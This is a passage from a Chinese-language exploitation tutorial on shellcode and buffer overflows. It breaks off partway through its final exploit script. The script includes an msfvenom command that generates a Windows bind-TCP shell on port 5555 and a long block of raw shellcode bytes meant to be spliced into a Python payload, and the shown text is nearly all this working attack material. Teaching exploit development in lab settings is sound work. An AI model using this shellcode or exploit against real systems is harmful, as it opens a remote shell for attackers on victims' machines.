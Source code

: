 ![from_shellcode_to_buffer_overflow_practical_experience_16](from_shellcode_to_buffer_overflow_practical_experience_16.jpg)

然后复制shellcode拼接到py的payload中。

##### 3.4.3.3 最终EXP

脚本如下：

```python
import socket
 
#----------------------------------------------------------------------------------#
# msfvenom windows/shell_bind_tcp LPORT=5555  -b '\x00\x0A\x0D' -f c               #
#----------------------------------------------------------------------------------#
 
shellcode = (
"\xd9\xee\xd9\x74\x24\xf4\x58\x2b\xc9\xb1\x53\xba\x20\x01\xae"
"\xc2\x83\xc0\x04\x31\x50\x13\x03\x70\x12\x4c\x37\x8c\xfc\x12"
"\xb8\x6c\xfd\x72\x30\x89\xcc\xb2\x26\xda\x7f\x03\x2c\x8e\x73"
"\xe8\x60\x3a\x07\x9c\xac\x4d\xa0\x2b\x8b\x60\x31\x07\xef\xe3"
"\xb1\x5a\x3c\xc3\x88\x94\x31\x02\xcc\xc9\xb8\x56\x85\x86\x6f"
"\x46\xa2\xd3\xb3\xed\xf8\xf2\xb3\x12\x48\xf4\x92\x85\xc2\xaf"
"\x34\x24\x06\xc4\x7c\x3e\x4b\xe1\x37\xb5\xbf\x9d\xc9\x1f\x8e"
"\x5e\x65\x5e\x3e\xad\x77\xa7\xf9\x4e\x02\xd1\xf9\xf3\x15\x26"
"\x83\x2f\x93\xbc\x23\xbb\x03\x18\xd5\x68\xd5\xeb\xd9\xc5\x91"
"\xb3\xfd\xd8\x76\xc8\xfa\x51\x79\x1e\x8b\x22\x5e\xba\xd7\xf1"
"\xff\x9b\xbd\x54\xff\xfb\x1d\x08\xa5\x70\xb3\x5d\xd4\xdb\xdc"
"\x92\xd5\xe3\x1c\xbd\x6e\x90\x2e\x62\xc5\x3e\x03\xeb\xc3\xb9"
"\x64\xc6\xb4\x55\x9b\xe9\xc4\x7c\x58\xbd\x94\x16\x49\xbe\x7e"
"\xe6\x76\x6b\xea\xee\xd1\xc4\x09\x13\xa1\xb4\x8d\xbb\x4a\xdf"
"\x01\xe4\x6b\xe0\xcb\x8d\x04\x1d\xf4\xa4\x67\xa8\x12\xac\x97"
"\xfd\x8d\x58\x5a\xda\x05\xff\xa5\x08\x3e\x97\xee\x5a\xf9\x98"
"\xee\x48\xad\x0e\x65\x9f\x69\x2f\x7a\x8a\xd9\x38\xed\x40\x88"
"\x0b\x8f\x55\x81\xfb\x2c\xc7\x4e\xfb\x3b\xf4\xd8\xac\x6c\xca"
"\x10\x38\x81\x75\x8b\x5e\x58\xe3\xf4\xda\x87\xd0\xfb\xe3\x4a"
"\x6c\xd8\xf3\x92\x6d\x64\xa7\x4a\x38\x32\x11\x2d\x92\xf4\xcb"
"\xe7\x49\x5f\x9b\x7e\xa2\x60\xdd\x7e\xef\x16\x01\xce\x46\x6f"
```